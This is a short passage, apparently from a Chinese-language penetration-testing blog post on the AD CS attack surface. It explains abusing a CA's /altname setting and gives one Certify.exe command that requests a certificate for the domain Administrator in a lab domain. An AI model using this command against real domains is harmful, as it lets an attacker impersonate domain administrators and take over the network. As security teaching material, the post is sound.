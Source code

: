 要滥用这一点，只需将 `/altname` 标志与任何允许域身份验证的模板一起使用。在这种情况下，让我们使用 User 模板（它默认不允许我们指定主题名称），并为域管理员用户 Administrator 申请证书。

```console
C:\Users\Marcus\Desktop> Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:User /altname:PENTEST\Administrator
```

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/hvyIO4lA2tqoB56.png)
